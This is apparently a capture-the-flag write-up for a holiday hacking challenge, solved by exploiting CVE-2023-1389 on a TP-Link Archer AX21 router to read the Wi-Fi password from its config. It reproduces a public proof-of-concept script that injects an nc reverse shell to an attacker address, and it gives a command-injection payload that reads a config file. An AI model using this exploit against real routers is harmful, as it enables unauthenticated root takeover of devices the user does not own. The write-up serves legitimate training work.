




|[Previous Objective: Act2 IDORable Bistro](/act3_idorable_bistro_mjd.md)  |   [Table of Contents](/index.md) | [Next Objective: Act2 Rogue Gnome Identity Provider](/act2_rogue_gnome_identity_provider_mjd.md)
| :----------------------- | :--------------------------------: | --------------------------------: |

| Objective: Dosis Network Down    | Difficulty Level: 2 |
| :-----------------------: | :--------------------------: |
| Drop by JJ's 24-7 for a network rescue and help restore the holiday cheer.<br> What is the WiFi password found in the router's config? | Location: JJ's 24-7  |

## Solution Overview

The objective is to gain access to the router configuration and the password it contains. The target device appears to be running the patched firmware version (1.1.4 Build 20230219), but testing is still required to verify the patch is effective. The vulnerability exists in the `/cgi-bin/luci;stok=/locale` endpoint where the country parameter is not properly sanitized before being passed to `popen()`. An unauthenticated attacker can exploit this by sending crafted GET requests to inject commands that execute with root privileges. The exploit requires sending the malicious request twice: the first sets the command and the second executes it. Publicly available proof-of-concept code demonstrates how to obtain a reverse shell using this vulnerability.  In this case, the attack used a simple payload to read the `/etc/config/wireless` configuration file, which contains wireless network settings including SSIDs and encryption parameters. The exploitation successfully extracted the WiFi password "SprinklesAndPackets2025!" from the router's configuration.

| Activity | Primary Tactic | MITRE ATT&CK Technique ID | MITRE ATT&CK Technique Name |
|----------|----------------|---------------------------|----------------------------|
| Identify vulnerable TP-Link Archer AX21 router running outdated firmware | Reconnaissance | T1595.002 | Active Scanning: Vulnerability Scanning |
| Access the router's web management interface without authentication | Initial Access | T1190 | Exploit Public-Facing Application |
| Craft malicious GET request with command injection payload in country parameter | Execution | T1059.004 | Command and Scripting Interpreter: Unix Shell |
| Send request twice to `/cgi-bin/luci;stok=/locale` endpoint to set and execute command | Execution | T1203 | Exploitation for Client Execution |
| Execute injected commands with root privileges via `popen()` function | Privilege Escalation | T1068 | Exploitation for Privilege Escalation |
| Read `/etc/config/wireless` configuration file containing network credentials | Credential Access | T1552.001 | Unsecured Credentials: Credentials In Files |
| Extract WiFi password (SprinklesAndPackets2025!) from wireless configuration | Collection | T1005 | Data from Local System |


## Detailed Solution
<details>
<summary>Click to expand</summary>


Device Information



The logon screen indicates that this is an **Archer AX21 v2.0** running firmware version **1.1.4 Build 20230219**.

TP-Link Archer AX21 (AX1800) firmware versions before 1.1.4 Build 20230219 contained a command injection vulnerability in the country form of the `/cgi-bin/luci;stok=/locale` endpoint on the web management interface. Specifically, the country parameter of the write operation was not sanitized before being used in a call to `popen()`, allowing an unauthenticated attacker to inject commands, which would be run as root, with a simple POST request.

The following is a recent, known vulnerability. While the firmware version suggests it is patched, it needs to be tested.

CVE-2023-1389 -- Command Injection / Remote Code Execution

- **Description:** A command injection vulnerability exists in the Archer AX21 firmware (before version 1.1.4 Build 20230219). Attackers can send crafted POST requests to the router's web management interface, specifically the `/cgi-bin/luci;stok=/locale` endpoint, to inject commands.

- **Impact:** Successful exploitation grants **root access** to the device, enabling full control.

- **Severity:** CVSS base score of **8.8 (High)**.

- **Exploitation:** Proof-of-concept code is publicly available, and attackers have used this flaw to deploy **Mirai malware** onto vulnerable devices.

- **Mitigation:** TP-Link released patched firmware (v1.1.4 Build 20230219 and later). Devices linked to a TP-Link ID can receive update notifications automatically via the web interface or Tether app.

Exploit Code Analysis



From exploit-db, the exploit code provides insight into the request structure needed:

```python
#!/usr/bin/python3
#
# Exploit Title: TP-Link Archer AX21 - Unauthenticated Command Injection
# Date: 07/25/2023
# Exploit Author: Voyag3r (https://github.com/Voyag3r-Security)
# Vendor Homepage: https://www.tp-link.com/us/
# Version: TP-Link Archer AX21 (AX1800) firmware versions before 1.1.4 Build 20230219
# Tested On: Firmware Version 2.1.5 Build 20211231 rel.73898(5553); Hardware Version Archer AX21 v2.0
# CVE: CVE-2023-1389
#
# Disclaimer: This script is intended to be used for educational purposes only.
# Do not run this against any system that you do not have permission to test.
# The author will not be held responsible for any use or damage caused by this program.
#
# CVE-2023-1389 is an unauthenticated command injection vulnerability in the web
# management interface of the TP-Link Archer AX21 (AX1800), specifically, in the
# *country* parameter of the *write* callback for the *country* form at the
# "/cgi-bin/luci/;stok=/locale" endpoint. By modifying the country parameter it is
# possible to run commands as root. Execution requires sending the request twice;
# the first request sets the command in the *country* value, and the second request
# (which can be identical or not) executes it.
#
# This script is a short proof of concept to obtain a reverse shell. To read more
# about the development of this script, you can read the blog post here:
# https://medium.com/@voyag3r-security/exploring-cve-2023-1389-rce-in-tp-link-archer-ax21-d7a60f259e94
# Before running the script, start a nc listener on your preferred port -> run the script -> profit

import requests, urllib.parse, argparse
from requests.packages.urllib3.exceptions import InsecureRequestWarning

# Suppress warning for connecting to a router with a self-signed certificate
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)

# Take user input for the router IP, and attacker IP and port
parser = argparse.ArgumentParser()
parser.add_argument("-r", "--router", dest = "router", default = "192.168.0.1", help="Router name")
parser.add_argument("-a", "--attacker", dest = "attacker", default = "127.0.0.1", help="Attacker IP")
parser.add_argument("-p", "--port",dest = "port", default = "9999", help="Local port")
args = parser.parse_args()

# Generate the reverse shell command with the attacker IP and port
revshell = urllib.parse.quote("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc " + args.attacker + " " + args.port + " >/tmp/f")

# URL to obtain the reverse shell
url_command = "https://" + args.router + "/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(" + revshell + ")"

# Send the URL twice to run the command. Sending twice is necessary for the attack
r = requests.get(url_command, verify=False)
r = requests.get(url_command, verify=False)
```

Key portion of the script:

```python
# URL to obtain the reverse shell
url_command = "https://" + args.router + "/cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(" + revshell + ")"

# Send the URL twice to run the command. Sending twice is necessary for the attack
```



Work with the structure of the GET request until you get a **200 OK** response, indicating that the structure is valid.

Once the structure is verified, insert a payload.

On the TP-Link Archer AX21, the file `/etc/config/wireless` is part of the **OpenWrt-style configuration system** used in TP-Link firmware. It stores the **wireless interface definitions** — things like SSIDs, encryption settings, channels, and radio parameters. However, in the stock TP-Link firmware, this file is not normally user-accessible; it's managed internally by the router's web interface and app. If you flash the router with **OpenWrt**, then `/etc/config/wireless` becomes editable and contains the full wireless configuration in a structured text format.

The simplest payload is to print the file:

```
$(cat%20/etc/config/wireless)
```



**Answer: SprinklesAndPackets2025!**

</details>

## Tools Reference

| Tools Used           | Tool Version |
| :-----------------------: | :--------------------------------: |
| Burpesuite Community Edition | v2024.11.2 | 
| Exploit-db | N/A |


## Hints Reference
| Provided By         | Hint |
| :-----------------------: | :--------------------------------: |
| Santa | You know...if my memory serves me correctly...there was a lot of fuss going on about a UCI (I forgot the exact term...) for that router. |
| Santa | I can't believe nobody created a backup account on our main router...the only thing I can think of is to check the version number of the router to see if there are any...ways around it... |
| JJ | Alright then. Those bloody gnomes have proper messed about with the neighborhood's wifi - changed the admin password, probably mucked up all the settings, the lot.Now I can't get online and it's doing me head in, innit? We own this router, so we're just taking back what's ours, yeah? You reckon you can help me hack past whatever chaos these little blighters left behind? What is the WiFi password found in the router's config? |


## Acknowledgements
| Provided By         | Notes |
| :-----------------------: | :--------------------------------: |
| raffi | directed me to look at the exploit-db poc code carefully |


|[Previous Objective: Act2 IDORable Bistro](/act3_idorable_bistro_mjd.md)  |   [Table of Contents](/index.md) | [Next Objective: Act2 Rogue Gnome Identity Provider](/act2_rogue_gnome_identity_provider_mjd.md)
| :----------------------- | :--------------------------------: | --------------------------------: |
